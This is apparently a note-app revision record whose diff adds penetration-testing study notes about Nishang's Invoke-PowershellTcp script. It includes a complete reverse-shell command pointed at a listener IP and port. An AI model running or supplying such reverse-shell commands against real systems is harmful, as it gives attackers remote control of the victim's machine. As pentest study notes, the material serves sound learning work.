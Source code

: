 id: e63a0355fa5b4ed1a5c3e30c99b84df9
parent_id: 8c8f7bce77b149d5bebf3f8a6c2f6882
item_type: 1
item_id: 1a72f4e7464d467d810fc01a3adf9ed0
item_updated_time: 1651158331976
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"ntesters\"],[1,\"\\\n\\\n# Nishang\\\n\\\nUnder /opt/nishang/Shells\\\n\\\n## Invoke-PowershellTCP\\\n\\\nMake sure to copy and then add the command to call the command inside the script\\\n\\\nInvoke-PowershellTcp -Reverse -IPAddress 192.168.119.206 -Port 5001\"]],\"start1\":1446,\"start2\":1446,\"length1\":8,\"length2\":222}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-28T15:11:47.342Z
created_time: 2022-04-28T15:11:47.342Z
type_: 13